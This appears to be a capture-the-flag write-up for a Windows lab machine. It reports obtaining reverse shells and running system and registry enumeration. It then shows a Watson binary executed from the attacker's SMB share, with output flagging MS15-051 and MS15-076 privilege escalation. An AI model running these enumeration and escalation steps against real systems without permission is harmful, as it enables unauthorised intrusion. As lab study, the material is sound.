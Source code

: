So First i got a nishang shell then i moved over to a nc.exe shell using this really cool trick 0xdf used in his devel writeup. https://0xdf.gitlab.io/2019/03/05/htb-devel.html#shell-as-web	. after that im going to run Watson and find an exploit. 

```
systeminfo
```

its running on x64-baseed pc using

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\CDF 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4.0 
```

```
cd C:\Users>c:\Windows\Microsoft.NET\Framework
dir /A:D
```

![framework-net](framework-net.PNG)

i will compile it in 4.0 .net. 0xdf has a great guide for compiling watson & ippsec has a video on it.

https://0xdf.gitlab.io/2019/03/05/htb-devel.html#Watson

```
\\10.10.14.49\share\Watson-net4-64base.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 9600
 [*] CPU Address Width: 64
 [*] Process IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS15-051
   [>] Description: An EoP exists due to improper object handling in the win32k.sys kernel mode driver.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_051_client_copy_image.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS15-076
```